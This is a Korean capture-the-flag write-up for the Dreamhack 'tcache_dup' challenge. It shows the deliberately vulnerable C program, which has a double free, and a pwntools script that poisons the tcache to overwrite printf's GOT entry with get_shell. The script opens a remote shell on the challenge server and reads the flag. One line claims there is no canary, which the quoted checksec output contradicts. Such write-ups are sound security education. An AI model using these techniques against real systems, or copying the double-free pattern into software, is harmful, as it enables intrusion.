 # tcache_dup

- [문제 페이지](https://dreamhack.io/wargame/challenges/60)

## 문제 해설
```c
// gcc -o tcache_dup tcache_dup.c -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char *ptr[10];

void alarm_handler() {
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int create(int cnt) {
    int size;

    if (cnt > 10) {
        return -1;
    }
    printf("Size: ");
    scanf("%d", &size);

    ptr[cnt] = malloc(size);

    if (!ptr[cnt]) {
        return -1;
    }

    printf("Data: ");
    read(0, ptr[cnt], size);
}

int delete() {
    int idx;

    printf("idx: ");
    scanf("%d", &idx);

    if (idx > 10) {
        return -1;
    }

    free(ptr[idx]);
}

void get_shell() {
    system("/bin/sh");
}

int main() {
    int idx;
    int cnt = 0;

    initialize();

    while (1) {
        printf("1. Create\n");
        printf("2. Delete\n");
        printf("> ");
        scanf("%d", &idx);

        switch (idx) {
            case 1:
                create(cnt);
                cnt++;
                break;
            case 2:
                delete();
                break;
            default:
                break;
        }
    }

    return 0;
}
```
문제 코드를 보면 힙 할당과 해제를 하는 코드임을 알 수 있다. 먼저 checksec을 살펴보자

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
PIE와 카나리가 존재하지 않는다. 

코드 시나리오를 작성해보면

1. Double Free Bug를 일으킨다.
2. GOT를 get_shell로 변조한다.

하지만, 프리된 청크의 key를 변조하는 코드는 존재하지 않는다. 

직접 실행을 하면

```
1. Create
2. Delete
> 1
Size: 32
Data: test
1. Create
2. Delete
> 2
idx: 0
1. Create
2. Delete
> 2
idx: 0
1. Create
2. Delete
> 
```
Double Free를 위한 보호 기법이 걸려있지 않아 같은 청크를 두번 이상 Free시킬 수 있다.

따라서, ptr의 0번째를 할당하고, 해제를 두번, fd를 printf의 got로 설정하여 이 data를 get_shell의 주소로 변조하면 된다.

이걸 python 코드로 작성하면

```python

from pwn import *

def create(size, data):
    global p;

    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b'Size: ', size)
    p.sendafter(b'Data: ', data);

def delete(index):
    global p

    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', index)

p = remote("host1.dreamhack.games", 13235)

create(b'64', b'test')
delete(b'0')
delete(b'0')
create(b'64', p64(0x601038))
create(b'64', p64(0x601038))

create(b'64', p64(0x400ab0))

p.interactive()
```

다음과 같이 작성되고, 이를 실행하면
```
[+] Opening connection to host1.dreamhack.games on port 13235: Done
 [*] Switching to interactive mode
1. Create
2. Delete
$ ls
flag
tcache_dup
$ cat flag
DH{********************************************}
$  
```
잘 실행됨을 확인할 수 있다.

![success](image.png)